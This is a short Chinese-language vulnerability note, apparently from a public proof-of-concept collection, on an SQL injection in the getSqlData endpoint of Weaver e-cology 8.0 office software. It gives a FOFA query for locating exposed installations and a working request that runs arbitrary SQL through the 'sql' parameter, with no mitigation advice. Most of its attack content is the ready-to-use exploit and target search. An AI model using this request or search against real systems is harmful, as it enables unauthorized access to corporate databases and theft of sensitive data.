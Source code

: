 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201341203.png)

验证POC

```
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220520134115167](./images/202205201341226.png)
